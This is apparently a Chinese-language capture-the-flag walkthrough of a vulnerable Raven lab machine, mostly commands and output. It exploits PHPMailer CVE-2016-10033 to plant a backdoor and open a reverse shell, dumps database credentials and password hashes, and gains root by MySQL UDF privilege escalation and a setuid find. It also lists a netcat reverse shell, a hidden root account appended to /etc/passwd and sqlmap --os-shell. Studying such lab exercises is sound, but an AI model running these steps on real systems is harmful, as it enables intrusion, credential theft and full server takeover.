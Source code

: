 1、nmap -sP 10.211.55.0/24
发现IP：10.211.55.10

2、dirb http://10.211.55.10

枚举发现该目录：
==> DIRECTORY: http://10.211.55.10/vendor/

http://10.211.55.10/vendor/PATH  第二个目录获得flag：
/var/www/html/vendor/
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}

3、http://10.211.55.10/vendor/README.md
枚举获得信息：PHPMailer
http://10.211.55.10/vendor/VERSION
枚举获得信息：5.2.16
这时候去找EXP！

4、谷歌：PHPMailer 5.2.16 exp
CVE-2016-10033
点击第一条就能发现：https://www.exploit-db.com/exploits/40974

searchsploit 40974
cp /usr/share/exploitdb/exploits/php/webapps/40974.py /root/桌面

将exp考出，需要针对PHPMailer修改参数:
41行：改下地址：http://10.211.55.10/contact.php
42行：后门名称：/dayu.php
44行：改下回弹的IP和端口  10.211.55.19  6666
47行：改下写入shell的目录：/var/www/html/dayu.php


5、执行exp
python3 40974.py
如果环境报错按照环境安装：
需要安装requests_toolbelt模块，使用命令：pip install requests-toolbelt安装即可，如果没用pip，需要sudo apt-get install python-pip安装即可。

访问http://10.211.55.10/contact.php，此时就会生成后门文件dayu.php
本地开启监听：nc -vlp 6666
访问：http://10.211.55.10/dayu.php
获得反弹shell！
python -c 'import pty;pty.spawn("/bin/bash")'

6、找寻flag
find / -name flag*

/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/flag2.txt
发现两个flag！读取：
cat /var/www/flag2.txt
flag2{6a8ed560f0b5358ecf844108048eb337}

访问：
http://10.211.55.10/wordpress/wp-content/uploads/2018/11/flag3.png
获得flag3！

7、wordpress目录枚举
在flag3目录下发现了wordpress目录，然后进行枚举
grep "内容" -rn 
grep "password" -rn wp-config.php

define('DB_USER', 'root');
/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
获得mysql账号密码信息！

ps aux | grep root   ---查看mysql进程信息

root       917  0.1  0.3 1351196 1760 ?        Sl   Jan07   2:09 /usr/sbin/mysqld --basedir=/

dpkg -l | grep mysql   --查看历史安装包版本
5.5.6

mysql是root权限运行的，那么接下来就找mysql提权的方法.

8、mysql UDF 提权
UDF 提权、MOF 提权是非常经典的提权方法！

------------------
mysql -uroot -pR@v3nSecurity 
select version();  ---查看版本

show databases;
use wordpress
show tables;
select * from wp_users;
michael：$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven：B6X3H3ykawf2oHuPsbjQiih5iJXqad.

首先看一下是否满足写入条件：
show global variables like 'secure%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)
1）当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
2）当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/目录下，此时也无法提权
3）当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权!
如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。

查看插件目录：
show variables like '%plugin%';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)

查看能否远程登陆：
use mysql;
select user,host from user;
+------------------+-----------+
| user             | host      |
+------------------+-----------+
| root             | 127.0.0.1 |
| root             | ::1       |
| debian-sys-maint | localhost |
| root             | localhost |
| root             | raven     |
+------------------+-----------+
5 rows in set (0.00 sec)
发现这里root用户不允许远程登陆，因此不能利用MSF提权。




谷歌搜索：mysql 5.x UDF exploit  或者  searchsploit udf
https://www.exploit-db.com/exploits/1518   
searchsploit 1518.c
cp /usr/share/exploitdb/exploits/linux/local/1518.c /root/桌面 

gcc -g -c 1518.c   ---GCC编译.o文件
gcc -g -shared -o dayu.so 1518.o -lc
-g 生成调试信息
-c 编译（二进制）
-shared：创建一个动态链接库，输入文件可以是源文件、汇编文件或者目标文件。
-o：执行命令后的文件名
-lc：-l 库 c库名

wget http://10.211.55.19:8081/dayu.so

show databases;
use mysql
select database();

进入数据库创建数据表dayu：
create table dayu(line blob);
插入数据文件：
insert into dayu values(load_file('/tmp/dayu.so'));

dayu表成功插入二进制数据，然后利用dumpfile函数把文件导出，outfile 多行导出，dumpfile一行导出
outfile会有特殊的转换，而dumpfile是原数据导出！
新建存储函数：
select * from dayu into dumpfile '/usr/lib/mysql/plugin/dayu.so';

创建自定义函数do_system，类型是integer，别名（soname）文件名字，然后查询函数是否创建成功：
create function do_system returns integer soname 'dayu.so';

查看以下创建的函数：
select * from mysql.func;
调用do_system函数来给find命令所有者的suid权限，使其可以执行root命令：
select do_system('chmod u+s /usr/bin/find');

执行find命令
使用find执行 shell
touch dayu
find dayu -exec "/bin/sh" \;
或者：find dayu -exec "id" \;
cd /root
cat flag4.txt
flag4{df2bc5e951d91581467bb9a2a8ff4425}

-----------------------
mysql -uroot -pR@v3nSecurity 
show databases;
use mysql
select database();

create table dayu(line blob);
insert into dayu values(load_file('/tmp/dayu.so'));
select * from dayu into dumpfile '/usr/lib/mysql/plugin/dayu.so';
create function do_system returns integer soname 'dayu.so';
select * from mysql.func;
select do_system('chmod u+s /usr/bin/find');
-----------------------
拓展知识点：或者利用sys_exec、sys_eval

select do_system('nc -nv 10.211.55.28 6677 -e /bin/bash');

-------------------
openssl passwd dayu
YpIR51FecR9AY
select do_system('echo "dayu:xFzxgAbLwwOOA:0:0:root:/root:/bin/bash" >> /etc/passwd');
su dayu

------------------------
仅限/bin/bash模式：
python -c 'import pty;pty.spawn("/bin/bash")'
Ctl z
stty raw -echo
fg
-------------------
cewl http://10.211.55.10/wordpress/ -w user.txt
git clone https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
cd CVE-2018-15473-Exploit/

pip3 install -r requirements.txt
proxychains pip3 install --upgrade paramiko==2.4.1
--------------
如果可以远程：
mysql_udf_payload
sqlmap -d "mysql://root:root@192.168.245.130:3306/mysql" --os-shell














